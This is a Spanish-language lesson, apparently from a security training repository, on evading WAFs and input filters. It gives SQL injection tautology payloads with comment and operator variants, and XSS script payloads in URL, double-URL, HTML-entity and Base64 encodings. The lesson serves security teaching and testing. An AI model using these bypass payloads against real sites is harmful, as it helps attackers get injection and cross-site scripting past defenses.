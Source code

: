 # Advanced Payload Evasion - Técnicas Modernas de Bypassing

## 🎯 Objetivo de la Lección
Aprender técnicas avanzadas de evasión de payloads para bypassing de filtros, WAFs y sistemas de detección modernos.

## 📚 Conceptos Fundamentales

### ¿Qué es Payload Evasion?
La evasión de payloads es el arte de modificar código malicioso para evitar la detección por sistemas de seguridad, manteniendo su funcionalidad original.

### Tipos de Evasión
1. **Character Substitution** - Reemplazo de caracteres clave
2. **Encoding Variations** - Múltiples capas de codificación
3. **Case Manipulation** - Manipulación de mayúsculas/minúsculas
4. **Comment Injection** - Inyección de comentarios
5. **Whitespace Manipulation** - Manipulación de espacios en blanco
6. **Unicode Obfuscation** - Ofuscación con Unicode
7. **Concatenation Splitting** - División y concatenación

## 🛠️ Técnicas Prácticas

### 1. Character Substitution (SQL Injection)
```sql
-- Original
' OR 1=1--

-- Evasiones
'' OR 1=1--
" OR 1=1--
' OR 1 LIKE 1--
' OR 1 REGEXP 1--
'/**/OR/**/1=1--
```

### 2. Encoding Variations
```javascript
// Original
<script>alert(1)</script>

// URL Encoding
%3Cscript%3Ealert(1)%3C/script%3E

// Double URL Encoding
%253Cscript%253Ealert(1)%253C/script%253E

// HTML Entity Encoding
&#60;script&#62;alert(1)&#60;/script&#62;

// Base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
